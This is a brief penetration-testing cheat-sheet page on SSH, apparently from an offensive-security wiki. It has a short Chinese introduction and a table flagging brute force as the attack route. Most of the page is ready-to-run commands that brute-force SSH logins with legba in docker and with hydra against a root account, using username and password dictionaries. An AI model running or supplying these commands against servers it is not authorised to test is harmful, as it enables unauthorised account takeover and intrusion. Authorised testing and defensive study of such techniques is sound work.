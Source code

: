 # SSH

<details>

<summary>Introduction</summary>

SSH（Secure Shell Protocol）是一种加密的网络协议，用于安全地在两台计算机之间进行远程登录和数据传输。它提供了加密的通信会话，使得用户可以在不安全的网络中安全地管理远程设备和执行命令。SSH广泛应用于远程服务器管理、文件传输和安全通信等领域。

</details>

<table><thead><tr><th width="178">Name</th><th>SSH (Secure Shell Protocol)</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>22</td></tr><tr><td><strong>RCE</strong></td><td>Feasible</td></tr><tr><td><strong>Vulnerability</strong></td><td>Brute Force</td></tr></tbody></table>

## Brute Force

If the SSH service has been authenticated, you can use tools like [legba](https://github.com/evilsocket/legba) and [hydra](https://github.com/vanhauser-thc/thc-hydra) for brute force.

{% code title="Environment" %}
```bash
HOST=; PORT=22; # TARGET HOST INFO
DICT_PATH=~/hack/dicts/hack-dict; # LOCAL DICT PATH
```
{% endcode %}

{% code title="Use Legba" %}
```bash
docker run \
  -v $DICT_PATH:/hack-dict \
  -v $(PWD):/out \
  --network host -it --rm \
  evilsocket/legba:latest \
  ssh --target $HOST:$PORT \
  --username /hack-dict/username/top10.txt \
  --password /hack-dict/darkweb2017-top100.txt \
  -O /out/legba-ssh-outptu.txt
```
{% endcode %}

{% code title="Reference Docs" %}
```
https://github.com/evilsocket/legba
https://github.com/evilsocket/legba/wiki/Installation-and-Building
https://github.com/evilsocket/legba/wiki/Usage-and-Main-Options
https://github.com/evilsocket/legba/wiki/SSH-and-SFTP
```
{% endcode %}

{% code title="Use Hydra" %}
```bash
hydra -l root -P $DICT_PATH/test-10.txt -t 4 ssh://$HOST:$PORT
```
{% endcode %}

{% code title="Reference Docs" %}
```
https://github.com/vanhauser-thc/thc-hydra
```
{% endcode %}
